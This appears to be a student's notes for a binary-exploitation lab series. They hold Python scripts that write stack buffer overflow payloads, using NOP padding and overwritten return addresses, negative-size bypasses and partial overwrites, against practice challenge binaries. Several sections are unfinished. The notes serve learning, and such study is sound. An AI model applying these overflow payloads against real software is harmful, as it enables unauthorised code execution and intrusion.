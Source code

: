 ```
objdump -M intel -d /challenge/level > dump.txt
```

## ex 1.0
Payload size: 25  
Insert 'a' x 25

## ex 1.1
Payload size: 100
Insert 'a' x 100

## ex 2.0
Payload size: 401
Insert 'a' x 401

## ex 2.1
Payload size: 1000
Insert 'a' x 1000

## ex 3.0
Payload size: 64  
Script python:
```
number = b"\x36\x34\x0a"
payload = b"\x90" * 56
payload += b"\x19\x20\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 3.1
Payload size: 112  
Script python:
```
number = b"\x31\x31\x32\x0a"
payload = b"\x90" * 104
payload += b"\x35\x1d\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 4.0
+ challenge is smart: it will check to make sure you
don't want to provide so much data that the input buffer will
overflow. Triggers with payload size > 60
Script python:
```
number = b"\x2d\x39\x36\x0a"                        # size = -96
payload = b"\x90" * 88
payload += b"\xa1\x18\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 4.1
+ triggers with payload size > 54
Script python:
```
number = b"\x2d\x39\x36\x0a"
payload = b"\x90" * 88
payload += b"\x76\x1a\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 5.0
+ this challenge will let you send multiple payload records concatenated together.
It will make sure that the total payload size fits in the allocated buffer
on the stack  
+ triggers with number of payloads > 7
+ triggers with number of payloads = 0 or payload size = 0
Script python:  
```
```  
???

## ex 5.1
???

## ex 6.0
+ this challenge's win function will check if the argument passed is 0x1337. We need to jump past the check  
Script python:  
```
number = b"\x31\x32\x38\x0a"
payload = b"\x90" * 120
payload += b"\x89\x16\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

# ex 6.1
Script python:  
```
number = b"\x36\x34\x0a"
payload = b"\x90" * 56
payload += b"\xba\x14\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

# ex 7.0
Script python:  
```
number = b"\x34\x32\x0a"
payload = b"\x90" * 40
payload += b"\xce\x47"              # most significant 4 bits of second byte are random
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 7.1
Script python:  
```
number = b"\x31\x32\x32\x0a"
payload = b"\x90" * 120
payload += b"\xa4\x19"              # most significant 4 bits of second byte are random
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 8.0
+ this challenge is careful about reading your input: it will allocate a correctly-sized temporary
buffer on the heap, and then copy the data over to the stack  
Script python:  
```
```